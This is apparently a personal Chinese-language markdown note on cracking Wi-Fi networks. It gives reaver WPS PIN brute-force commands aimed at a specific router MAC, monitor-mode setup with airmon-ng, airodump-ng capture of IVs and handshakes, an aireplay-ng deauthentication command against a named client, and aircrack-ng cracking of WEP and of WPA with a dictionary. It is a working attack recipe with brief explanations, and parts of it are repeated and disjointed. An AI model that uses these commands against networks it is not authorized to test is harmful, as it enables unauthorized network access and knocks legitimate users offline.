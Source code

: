 >http://netsecurity.51cto.com/art/201105/264844_3.htm

# 另一种思路

> PIN http://www.geekfan.net/7846/

具体的方法 http://xiao106347.blog.163.com/blog/static/21599207820136161132836/

# 怎样的可以pin

`54e.` 的即可

方式:

```
sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n
```

显示更多信息 

```
sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n
```

指定特定的pin码
```
sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n -p 40869200
```
# 查看

当然，通过输入iwconfig查看也是可以滴。这个命令专用于查看无线网卡，不像ifconfig那样查看所有适配器。

    iwconfig 
	
在Linux下，我们使用Aircrack-ng套装里的airmon-ng工具来实现，具体命令如下：

    airmon-ng start wlan0
    
步骤3：探测无线网络，抓取无线数据包。

在激活无线网卡后，我们就可以开启无线数据包抓包工具了，这里我们使用Aircrack-ng套装里的airmon-ng工具来实现，具体命令如下：

不过在正式抓包之前，一般都是先进行预来探测，来获取当前无线网络概况，包括AP的SSID、MAC地址、工作频道、无线客户端MAC及数量等。只需打开一个Shell，输入具体命令如下：

    airodump-ng mon0 
  
参数解释：

mon0为之前已经载入并激活监听模式的无线网卡。如下图8所示。

# 监听

既然我们看到了本次测试要攻击的目标，就是那个SSID名为TP-LINK的无线路由器，接下来输入命令如下：
```
airodump-ng --ivs -w longas -c 6 wlan0 
```
参数解释：

* `--ivs` 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小；
* `-c` 这里我们设置目标AP的工作频道，通过刚才的观察，我们要进行攻击测试的无线路由器工作频道为6；
* `-w` 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，如下图10所示我这里就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longase.ivs，而是longas-01.ivs。



图10

注意：这是因为airodump-ng这款工具为了方便后面破解时候的调用，所以对保存文件按顺序编了号，于是就多了-01这样的序号，以此类推，在进行第二次攻击时，若使用同样文件名longas保存的话，就会生成名为longas-02.ivs的文件，一定要注意哦，别到时候找不到又要怪我没写清楚：）

啊，估计有的朋友们看到这里，又会问在破解的时候可不可以将这些捕获的数据包一起使用呢，当然可以，届时只要在载入文件时使用longas*.cap即可，这里的星号指代所有前缀一致的文件。

在回车后，就可以看到如下图11所示的界面，这表示着无线数据包抓取的开始。


图11
airodump-ng -c 6  -w <文件名> --ivs mon0

# 破解
破解 web加密,需要iv2万左右
```
aircrack-ng  *.ivs 
```

破解 wpa加密, 一个握手包+海量字典:
```
aircrack-ng  -w <字典文件> *.cap 
```

强制断开
	aireplay-ng -0 1  -a 6C:E8:73:50:85:F0 -c 00:1B:77:BE:19:FC mon0


# 暴力wap的

```
airodump-ng -c 6  -w [filename] mon0
```

```
aircrack-ng  -w [字典] *.cap 
```